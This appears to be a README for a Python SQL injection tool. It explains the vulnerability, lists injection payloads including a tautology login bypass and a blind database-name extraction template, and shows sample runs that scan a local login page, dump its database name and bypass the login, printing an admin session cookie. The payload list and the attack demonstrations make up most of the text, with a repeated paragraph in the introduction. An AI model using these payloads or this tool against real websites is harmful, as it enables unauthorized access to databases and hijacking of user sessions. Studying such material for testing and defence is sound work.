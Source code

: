 # Sql-injection
SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. This can allow an attacker to view data that they are not normally able to retrieve. This might include data that belongs to other users, or any other data that the application can access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.

In some situations, an attacker can escalate a SQL injection attack to compromise the underlying server or other back-end infrastructure. It can also enable them to perform denial-of-service attacks. 

In some situations, an attacker can escalate an SQL injection attack to compromise the underlying server or other back-end infrastructure, or perform a denial-of-service attack.
**Payloads**
```
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
' OR 1 = 1 -- 
' OR BINARY substring(database(), %d, 1) = '%s' -- 
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
```

**Example**
- Scan Vulnerability Sql Injection
```
python3 main.py -s http://localhost/hacking/login.php
[!] Trying http://localhost/hacking/login.php"
[!] Trying http://localhost/hacking/login.php'
[+] Detected 1 forms on http://localhost/hacking/login.php.
```
- Hack Database With Sql Injection
```
python3 main.py -d http://localhost/hacking/login.php
hacking
```
- Bypass Login Website With Sql Injection
```
python3 main.py -f http://localhost/hacking/login.php
--------------------------------------------------
[+] Login success!
[+] Admin cookie: mkffq2vgo24is4jr782cuc6g2n

<!DOCTYPE html>
<html lang="en">
    <head>
        <title>Dashboard</title>
    </head>
<body>
   <h1>Hallo admin!</h1>
        <p>Data 1 : This is coffee</p>
    <p>Data 2 : This is tea</p>
    <p>Data 3 : This is orange</p>
         <a href="logout.php">Logout</a>
</body>
</html>
```

# Libraries
- <a href="https://pypi.org/project/bs4/">Beautiful Soup</a>
- <a href="https://pypi.org/project/requests/">Requests</a>

